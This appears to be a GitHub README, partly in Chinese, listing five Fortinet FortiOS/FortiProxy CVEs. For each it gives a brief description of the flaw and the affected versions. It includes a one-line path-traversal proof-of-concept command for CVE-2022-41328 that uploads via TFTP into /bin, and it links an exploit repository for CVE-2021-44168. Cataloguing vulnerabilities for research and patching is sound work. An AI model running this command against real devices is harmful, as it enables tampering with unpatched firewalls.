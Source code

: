 # CVE-2024-21762

http chunk 处理中产生的漏洞

### Affected Products

ortiOS 7.4		   7.4.0 through 7.4.2		Upgrade to 7.4.3 or above
FortiOS 7.2		   7.2.0 through 7.2.6		Upgrade to 7.2.7 or above
FortiOS 7.0		   7.0.0 through 7.0.13		Upgrade to 7.0.14 or above
FortiOS 6.4		   6.4.0 through 6.4.14		Upgrade to 6.4.15 or above
FortiOS 6.2		   6.2.0 through 6.2.15		Upgrade to 6.2.16 or above
FortiOS 6.0		   6.0.0 through 6.0.17		Upgrade to 6.0.18 or above
FortiProxy 7.4	7.4.0 through 7.4.2		  Upgrade to 7.4.3 or above
FortiProxy 7.2	7.2.0 through 7.2.8		  Upgrade to 7.2.9 or above
FortiProxy 7.0	7.0.0 through 7.0.14	  Upgrade to 7.0.15 or above
FortiProxy 2.0	2.0.0 through 2.0.13	  Upgrade to 2.0.14 or above
FortiProxy 1.2	1.2 all versions			  Migrate to a fixed release
FortiProxy 1.1	1.1 all versions			  Migrate to a fixed release
FortiProxy 1.0	1.0 all versions			  Migrate to a fixed release

# CVE-2023-27997

漏洞点：/remote/hostcheck_validate，位于对enc参数的处理过程中，会造成越界读写

### Affected Products

FortiOS-6K7K version 7.0.10
FortiOS-6K7K version 7.0.5
FortiOS-6K7K version 6.4.12
FortiOS-6K7K version 6.4.10
FortiOS-6K7K version 6.4.8
FortiOS-6K7K version 6.4.6
FortiOS-6K7K version 6.4.2
FortiOS-6K7K version 6.2.9 through 6.2.13
FortiOS-6K7K version 6.2.6 through 6.2.7
FortiOS-6K7K version 6.2.4
FortiOS-6K7K version 6.0.12 through 6.0.16
FortiOS-6K7K version 6.0.10
FortiProxy version 7.2.0 through 7.2.3
FortiProxy version 7.0.0 through 7.0.9
FortiProxy version 2.0.0 through 2.0.12
FortiProxy 1.2 all versions
FortiProxy 1.1 all versions
FortiOS version 7.2.0 through 7.2.4
FortiOS version 7.0.0 through 7.0.11
FortiOS version 6.4.0 through 6.4.12
FortiOS version 6.2.0 through 6.2.13
FortiOS version 6.0.0 through 6.0.16
FortiSASE is no longer impacted, issue remediated Q2/23

# CVE-2022-42475

对http请求中的Content-Length中的内存分配时，会造成符号扩展，从而造成崩溃。

### Affected Products

FortiOS version 7.2.0 through 7.2.2
FortiOS version 7.0.0 through 7.0.8
FortiOS version 6.4.0 through 6.4.10
FortiOS version 6.2.0 through 6.2.11
FortiOS version 6.0.0 through 6.0.15
FortiOS version 5.6.0 through 5.6.14
FortiOS version 5.4.0 through 5.4.13
FortiOS version 5.2.0 through 5.2.15
FortiOS version 5.0.0 through 5.0.14
FortiOS-6K7K version 7.0.0 through 7.0.7
FortiOS-6K7K version 6.4.0 through 6.4.9
FortiOS-6K7K version 6.2.0 through 6.2.11
FortiOS-6K7K version 6.0.0 through 6.0.14
FortiProxy version 7.2.0 through 7.2.1
FortiProxy version 7.0.0 through 7.0.7
FortiProxy version 2.0.0 through 2.0.11
FortiProxy version 1.2.0 through 1.2.13
FortiProxy version 1.1.0 through 1.1.6
FortiProxy version 1.0.0 through 1.0.7


# CVE-2021-44168

A download of code without integrity check vulnerability [CWE-494] in the "execute restore src-vis" command of FortiOS may allow a local authenticated attacker to download arbitrary files on the device via specially crafted update packages.

### 通过该漏洞完成调试环境植入

https://github.com/0xhaggis/CVE-2021-44168

### Affected Products

FortiOS versions 6.0.13 and below,
FortiOS versions 6.2.9 and below,
FortiOS versions 6.4.7 and below,
FortiOS versions 7.0.2 and below.

# CVE-2022-41328

Path traversal in execute command

### poc

```
execute wireless-controller hs20-icon upload-icon tftp ../../../../../../bin/lspci <TA TFTP Server>
```

### Affected Products

FortiOS version 7.2.0 through 7.2.3
FortiOS version 7.0.0 through 7.0.9
FortiOS version 6.4.0 through 6.4.11
FortiOS version 6.2.0 through 6.2.13
FortiOS 6.0 all versions

# 资料

https://www.fortiguard.com/psirt?page=1&date=&severity=5&product=&component=&version=
